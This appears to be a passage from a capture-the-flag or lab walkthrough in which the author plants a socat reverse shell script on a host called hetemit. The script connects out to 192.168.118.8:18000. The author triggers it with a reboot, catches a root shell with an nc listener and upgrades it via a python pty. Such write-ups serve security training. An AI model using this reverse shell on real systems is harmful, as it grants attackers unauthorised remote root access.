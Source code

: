 Next, we'll create the reverse shell file.

```
[cmeeks@hetemit ~]$ cat <<'EOT'> /home/cmeeks/reverse.sh
#!/bin/bash
socat TCP:192.168.118.8:18000 EXEC:sh
EOT

[cmeeks@hetemit ~]$ chmod +x /home/cmeeks/reverse.sh
```

Let's restart our listener on port 18000, and then reboot the machine.

```
[cmeeks@hetemit ~]$ sudo reboot
```

When the machine boots up, we obtain a root shell.

```
kali@kali:~$ nc -lvnp 18000
listening on [any] 18000 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.36] 57890
python3 -c 'import pty; pty.spawn("/bin/bash")'

[root@hetemit /]# whoami
root

[root@hetemit /]# 
```